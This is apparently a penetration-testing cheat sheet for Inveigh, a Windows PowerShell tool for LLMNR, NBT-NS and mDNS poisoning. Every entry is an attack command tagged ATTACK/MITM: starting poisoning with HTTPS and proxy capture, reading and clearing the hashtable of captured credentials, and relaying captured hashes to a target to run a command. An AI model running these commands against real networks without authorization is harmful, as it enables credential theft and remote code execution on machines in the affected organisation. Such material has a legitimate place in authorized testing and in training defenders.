 # inveigh

% inveigh, LLMNR, NBT-NS, Poisoning, man in the middle

## inveigh - launch
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP <ip>
```

## inveigh - clear hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Clear-Inveigh
```

## inveigh - get data from hashtable
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Get-Inveigh
```

## inveigh - stop all running modules
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Stop-Inveigh
```

## inveigh - enable rela-time console output
#plateform/windows #target/remote #cat/ATTACK/MITM 
```
Watch-Inveigh
```

## inveigh - Relaying Hashes Captured w/ HTTP Proxy
#plateform/windows #target/serve #cat/ATTACK/MITM 
```
Invoke-InveighRelay -ConsoleOutput Y -Target <targetIP> -Command "whoami" -Attack Enumerate,Execute,Session
```